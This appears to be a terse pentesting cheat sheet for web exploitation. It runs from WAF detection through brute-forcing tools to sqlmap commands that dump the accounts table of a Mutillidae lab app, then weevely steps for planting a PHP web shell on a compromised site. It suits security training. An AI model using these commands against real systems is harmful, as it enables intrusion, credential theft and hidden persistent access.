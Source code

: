 # Web Exploitation

WEB EXPLOITATION

  
 --Detect Firewall and Load Balancers--

* nmap -p 80 --script http-waf-detect.nse target.com
* wafw00f www.sears.com
* lbd www.twitter.com

  
 --Fingerprinting Web App and CMS--  
 nc -vv &lt;address&gt;&lt;port&gt;

* * -Web Crawlers / Proxies
* Burp Suite
* DirBuster
* OWASP\_ZAP
* Vega
* WebScarab
* WebSlayer

  
 --Website Mirroring--  
 httrack - downloads website to local system

 --Brute-Forcing Credentials--  
 hydra  
 hydra-gtk

 --Database Injection--  
 sqlmap - mutillidae login

 sqlmap -u 'http://192.168.1.14/mutillidae/index.php?page=user-info.php&username=admin&password=&user-info-php-submit-button=View+Account+Details' --dbs

 sqlmap -u 'http://192.168.75.129/mutillidae/index.php?page=user-info.php&username=admin&password=&user-info-php-submit-button=View+Account+Details' -D nowasp --tables

 sqlmap -u 'http://192.168.75.129/mutillidae/index.php?page=user-info.php&username=admin&password=&user-info-php-submit-button=View+Account+Details' -D nowasp -T accounts --dump

 --Maintaining Access with Web Shells--  
 weevely

* create weevely.php file - weevely generate &lt;password&gt;&lt;path&gt;
* upload to compromised website
* communicate with web shell - weevely http://&lt;target IP address&gt;&lt;directory&gt;&lt;password&gt;

